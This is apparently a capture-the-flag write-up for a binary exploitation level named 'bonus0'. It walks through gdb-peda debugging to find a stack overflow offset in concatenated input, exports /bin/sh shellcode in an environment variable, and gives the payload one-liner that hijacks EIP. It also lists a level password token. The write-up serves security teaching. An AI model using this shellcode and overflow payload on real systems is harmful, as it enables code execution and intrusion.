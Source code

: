 # Bonus0 -

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| bonus0 | `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728` |
| bonus1 | ``                                                                 |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute the binary

```shell
~/bonus0 aaa
  -
  (stdin) a
  -
  (stdin) b
  > a b
```

There is 2 prompts, and it concatenates them.

Lets debug the binary

```shell
(gdb) info functions
0x080484b4  p
0x0804851e  pp
0x080485a4  main
```

See our assembly interpretation in [source file](../source.c)

```shell
./bonus0
  -
  (stdin) AAAAAAAAAAAAAAAAAAAA # 20 chars
  -
  (stdin) BBBBBBBBBBBBBBBBBBBB # 20 chars
  > AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBBBB
  Segmentation fault (core dumped)

./bonus0
   -
  (stdin) AAAAAAAAAAAAAAAAAAA # 19 chars
   -
  (stdin) BBBBBBBBBBBBBBBBBBBB # 20 chars
  > AAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBB
```

```shell
gdb-peda$ b*main+28 # before puts
gdb-peda$ run
  (stdin) AAAAAAAAAAAAAAAAAAA # 19 chars
  (stdin) BBBBBBBBBBBBBBBBBBB # 19 chars
gdb-peda$ x/100x $esp+0x16
x/100x $esp+0x16
  0xbffff626:   [ 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
  0xbffff62e:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
  0xbffff636:     0x41    0x41    0x41    0x20    0x42    0x42    0x42    0x42
  0xbffff63e:     0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
  0xbffff646:     0x42    0x42    0x42    0x42    0x42    0x42    0x42 ]  0x00
  0xbffff64e:     0xfd    0xb7  { 0xd0    0x85    0x04    0x08 }  0x00    0x00
```

There is an offset at 23 chars after second prompt.

Finally we can get the pass !

```shell
$ whoami
> bonus1
$ cat /home/user/bonus0/.pass
>
```

```
b*main+18
  (stdin) ABCDEFGHIJKLMNOPQRSTUVWXYZ (A-T 20)
  (stdin) abcdefghijklmnopqrstuvwxyz
run
x/50x $esp+0x16
  0xbffff616:[0x44434241	0x48474645	0x4c4b4a49	0x504f4e4d
  0xbffff626:	0x54535251][0x64636261	0x68676665  0x6c6b6a69
  0xbffff636:	0x706f6e6d	0x74737271][0xb7fd0ff4][0x63626120
  0xbffff646:	0x67666564	0x6b6a6968	0x6f6e6d6c	0x73727170]
  0xbffff656:	0xfd0ff474	0xc85800b7	0x0000b7fd	0xf61c0000

# [A-T][a-t][0xb7fd0ff4][a-c]' '[d-s]
# 20    20  4            3    1  16

continue
EIP: 0x6d6c6b6a ('jklm')
Invalid $PC address: 0x6d6c6b6a
Stopped reason: SIGSEGV
0x6d6c6b6a in ?? ()
```

```
export SHELLCODE=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

```shell
gdb-peda$ searchmem SHELLCODE
  [stack] : 0xbffff864 ("SHELLCODE=1\300Ph//shh/bin\211\343PS\211\341\260\v̀")
gdb-peda$ p 0xbffff864 + 10 # (length of "SHELLCODE=")
$1 = 0xbffff86e


ABCDEFGHIJKLMNOPQRSTUVWXYZ
abcdefghi\x6e\xf8\xff\xbfnoprstuvwxyz

python -c 'print "A" * 4095 + "\n" + "abcdefghi" + "\x6e\xf8\xff\xbf" + "nopqrstuvwxyz"' > /tmp/exploit10
```

---

## Sources

### Hack

- [Buffer overflow et variable d'environnement](https://www.hacktion.be/buffer-overflow-variable-environnement/)

### C

- [Man puts](https://linux.die.net/man/3/puts)
- [Man read](https://linux.die.net/man/3/read)
- [Man strchr](https://linux.die.net/man/3/strchr)
- [Man strcpy](https://linux.die.net/man/3/strcpy)
- [Man strncpy](https://linux.die.net/man/3/strncpy)
- [Man strcat](https://linux.die.net/man/3/strcat)
